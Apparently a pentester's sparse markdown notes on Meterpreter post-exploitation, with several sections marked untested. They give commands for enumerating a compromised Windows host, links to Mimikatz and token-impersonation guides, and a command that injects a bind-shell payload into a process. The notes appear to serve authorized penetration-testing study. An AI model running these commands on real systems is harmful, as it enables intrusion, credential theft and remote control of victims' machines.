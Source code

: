 ```yaml
---
title: "Meterpreter Post Exploitation"
date: 2021-10-09T15:23:01-05:00
draft: false
---
```


# AutoRun
Still gotta test: 
[StackExchange post about how to auto execute commands](https://security.stackexchange.com/questions/152903/auto-execute-meterpreter-commands-on-session-start)

# Enumeration
Gotta test

This provides a ton of info and dumps it to the filesystem.
    run winenum

This provides even more info including registry.
    run scaper

[Mimikatz stuff...](https://www.offensive-security.com/metasploit-unleashed/mimikatz/)

# Incognito
Still gotta test:
[Another way of running as different users](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)

# Multi Meterpreter Inject
Gotta test this...

Inject a new Meterpreter into an existing process or new process.  PID option specifies the process.

    run post/windows/manage/multi_meterpreter_inject PAYLOAD=windows/shell_bind_tcp

